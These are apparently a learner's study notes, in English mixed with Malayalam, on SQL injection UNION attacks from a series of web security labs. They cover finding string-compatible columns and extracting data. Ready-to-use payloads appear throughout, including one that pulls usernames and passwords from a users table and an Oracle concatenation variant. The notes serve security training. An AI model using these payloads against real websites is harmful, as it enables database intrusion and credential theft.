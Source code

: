 --------------------------------------------------------------------
 
     lab-3.b(Theory):
  
####  Finding columns with a useful data type in an SQL injection UNION attack:
-->Generally, the interesting data that you want to retrieve will be in string form, so you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.
-->Having already determined the number of required columns, you can probe each column to test whether it can hold string data by submitting a series of `UNION SELECT` payloads that place a string value into each column in turn. For example, if the query returns four columns, you would submit:
              '+UNION+SELECT+'a',NULL,NULL,NULL--         (dont forget to add +)
			  ' UNION SELECT NULL,'a',NULL,NULL-- 
			  ' UNION SELECT NULL,NULL,'a',NULL-- 
			  ' UNION SELECT NULL,NULL,NULL,'a'--
      ==ingne eth column il aan string support chyunath enn ariyan patum==
-->If the data type of a column is not compatible with string data, the injected query will cause a database error, such as:
   **`Conversion failed when converting the varchar value 'a' to data type int`**
   
                Lab-3.b (practical-finding column that contain string in it 
				        ==========================================
		
first we need to find how many columns are there
          -->'+UNION+SELECT+NULL--
second we need to find the column that contains string in it:
           -->' UNION SELECT NULL,'josu',NULL--
--------------------------------------------------------------------------------------

         Lab-3.c(theory):
		 
####  Using an SQL injection UNION attack to retrieve interesting data:
-->When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.
-->athava oru table il 2 column und.athil randilum string type aanengil:
          -->'+UNION+SELECT+username, password+FROM+users--
NOTE: ivide column name,table name correct aayit thanne kodukanam

        Lab-3.c(practical-retreiving data from table)
		         ===============================
first we need to find how many columns are there
          -->'+UNION+SELECT+NULL--
second we need to find the column that contains string in it:
           -->' UNION SELECT NULL,'josu',NULL--
third we need to retrive username and password from users table:
           -->'+UNION+SELECT+username,password+FROM+users--
		
--------------------------------------------------------------------

                Lab-3.d(theory):
#### Retrieving multiple values within a single column:
-->multiple values oru column aayi aan result tharunathengil namuk athine concatenate chyth distinguish chyam like ||'~''|| (oracle il ingane chyam)
      -->'+UNION+SELECT+username+|| '~' ||+password+FROM+users--
